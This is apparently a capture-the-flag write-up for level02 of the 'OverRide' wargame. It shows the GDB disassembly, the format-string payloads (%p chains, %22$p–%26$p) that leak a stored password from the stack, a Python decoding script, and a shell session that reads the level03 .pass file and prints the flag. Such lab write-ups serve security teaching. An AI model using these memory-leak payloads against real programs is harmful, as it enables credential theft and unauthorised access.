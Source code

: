 # **Level02**

At this level (level02), I found a binary file that, when executed, prompts the user for a username and password.

```nasm
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: eeeeee
--[ Password: eee
*****************************************
eeeeee does not have access!
level02@OverRide:~$
```

## **Binary Analysis**

After examining the program with GDB, I found that the program reads the password from a file, takes the username and password input from the user, and compares them. If the password is correct, it spawns a shell.

```nasm

0x0000000000400814 <+0>:     push   %rbp
0x0000000000400818 <+4>:     sub    $0x120,%rsp      ;Allocate 288 bytes

;Initialize buffers at different offsets
0x000000000040082c <+24>:    lea    -0x70(%rbp),%rdx  ; Username buffer
0x0000000000400849 <+53>:    lea    -0xa0(%rbp),%rdx  ; File content buffer
0x0000000000400869 <+85>:    lea    -0x110(%rbp),%rdx ; Password buffer

;Open password file
0x00000000004008a8 <+148>:   callq  0x400700 <fopen@plt>
0x00000000004008ad <+153>:   mov    %rax,-0x8(%rbp)   ; Store file pointer

;Read from file
0x00000000004008f4 <+224>:   mov    $0x29,%edx        ; Read 41 bytes (0x29)
0x0000000000400901 <+237>:   callq  0x400690 <fread@plt>

;Username input
0x00000000004009d1 <+445>:   mov    $0x64,%esi        ; Size = 100 bytes
0x00000000004009d9 <+453>:   callq  0x4006f0 <fgets@plt>

;Password input
0x0000000000400a17 <+515>:   mov    $0x64,%esi        ; Size = 100 bytes
0x0000000000400a1f <+523>:   callq  0x4006f0 <fgets@plt>

; Format string vulnerability
0x0000000000400a96 <+642>:   lea    -0x70(%rbp),%rax  ; Load username
0x0000000000400aa2 <+654>:   callq  0x4006c0 <printf@plt> ; Direct printf

;spawning a shell
0x0000000000400a85 <+625>:	mov    $0x400d32,%edi
0x0000000000400a8a <+630>:	callq  0x4006b0 <system@plt>
```

## **Vulnerability**

The vulnerability in this program is a format string vulnerability. The input is passed directly to `printf` without proper validation.

```nasm
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p%p
--[ Password:
*****************************************
0x7fffffffe4c0(nil) does not have access!
level02@OverRide:~$
```

## **Exploit**

Now, we need to calculate the offset. First, we determine the distance between the buffers.

```nasm
(gdb) p/d 0x70
$1 = 112
(gdb) p/d 0xa0
$2 = 160
```

Visual representation:

```nasm
Higher addresses
[      ...      ]
rbp-112 (0x70)  Username buffer
[      ...      ]
48 bytes difference
[      ...      ]
rbp-160 (0xa0)  Password buffer
[      ...      ]
Lower addresses
```

Calculating the Distance:

                                           *Distance = 160 − 112 = 48 bytes*

Since this is a 64-bit binary (x86_64), where registers, memory addresses, and stack values are 8 bytes each, we determine the number of positions to move:

                                           *48 ÷ 8 = 6 positions*

This means we need to go back **6 positions** on the stack to reach the password buffer.

1. **Find the Start Position** 

```nasm
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAAAAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
--[ Password:
*****************************************
AAAAAAAA 0x7fffffffe4c0 (nil) (nil) 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6b8 0x1f7ff9a08 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x4141414141414141 0x2520702520702520 0x2070252070252070 does not have access!
level02@OverRide:~$

```

2. **We can verify this with specific position:**

```nasm
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAA %28$p
--[ Password:
*****************************************
AAAA 0x3832252041414141 ; Confirms position 28
level02@OverRide:~$ 
```

So the first password position: 28 - 6 = 22

1. **Precise Format String:**

```bash
# Read 5 8-byte chunks starting at position 22
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %22$p %23$p %24$p %25$p %26$p
--[ Password:
*****************************************
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d does not have access!
level02@OverRide:~$
```

1. **Decode Password:**
Hex to ASCII conversion
```python
hex_values = [
    '756e505234376848',  # First chunk
    '45414a3561733951',  # Second chunk
    '377a7143574e6758',  # Third chunk
    '354a35686e475873',  # Fourth chunk
    '48336750664b394d'   # Fifth chunk
]

password = ''
for hex_val in hex_values:
    # 1. bytes.fromhex(hex_val):
    # '756e505234376848' -> b'unPR47hH'
    
    # 2. [::-1]:
    # b'unPR47hH' -> b'Hh74RPnu'
    
    # 3. decode('ascii'):
    # b'Hh74RPnu' -> 'Hh74RPnu'
    
    bytes_val = bytes.fromhex(hex_val)
    password += bytes_val[::-1].decode('ascii')

print(password)
```

**Output:** 

```python
~ python3 d**ecoding**.py
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
➜  ~
```

1. **Get the Flag**

```python
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: dddddd
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, dddddd!
$ whoami
level03
$ cat /home/users/level03/.pass
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
$
```

## Flag

```python
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```